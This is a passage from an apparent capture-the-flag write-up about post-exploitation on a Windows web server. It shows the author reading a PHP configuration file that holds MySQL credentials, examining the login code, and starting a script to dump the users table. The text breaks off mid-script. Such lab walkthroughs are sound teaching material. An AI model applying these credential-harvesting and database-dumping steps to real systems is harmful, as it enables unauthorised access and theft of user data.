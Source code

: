 Seems like the `user.txt` is residing in `Chris` but we do not know his credentials.

Looking around, I found MySQL credentials in `C:\inetpub\wwwroot\users`:
{% highlight raw %}
C:\inetpub\wwwroot\user>type db.php
type db.php
<?php
// Enter your Host, username, password, database below.
// I left password empty because i do not set password on localhost.
$con = mysqli_connect("localhost","dbuser","36mEAhz/B8xQ~2VM","sniper");
// Check connection
if (mysqli_connect_errno())
  {
  echo "Failed to connect to MySQL: " . mysqli_connect_error();
  }
?>
{% endhighlight %}

and also saw how the `login` feature for the website was implemented:
{% highlight raw %}
<?php
require('db.php');
session_start();
// If form submitted, insert values into the database.
if (isset($_POST['username'])){
        // removes backslashes
        $username = stripslashes($_REQUEST['username']);
        //escapes special characters in a string
        $username = mysqli_real_escape_string($con,$username);
        $password = stripslashes($_REQUEST['password']);
        $password = mysqli_real_escape_string($con,$password);
        //Checking is user existing in the database or not
        $query = "SELECT * FROM `users` WHERE username='$username'
and password='".md5($password)."'";
        $result = mysqli_query($con,$query) or die(mysql_error());
        $rows = mysqli_num_rows($result);
        if($rows==1){
            $_SESSION['username'] = $username;
            // Redirect user to index.php
            header("Location: index.php");
         }else{
...
{% endhighlight %}

From this, we can tell that some possible usernames and passwords are stored in the `users` table in the columns `username` and `password` so lets try to dump them out:

Creating a `.php` file to dump out the `users` table:
{% highlight bash %}
$ cat ~/Desktop/fileshare/dump.php
<?php
$conn = mysqli_connect("localhost","dbuser","36mEAhz/B8xQ~2VM","sniper");
// Check connection
if (mysqli_connect_errno())
  {
  echo "Failed to connect to MySQL: " . mysqli_connect_error();
  }
$sql = "SELECT * from users";
$result = mysqli_query($conn, $sql);
if (mysqli_num_rows($result) > 0) {
    // output data of each row
    while($row = mysqli_fetch_assoc($result)) {
        print_r($row);
    }
} else {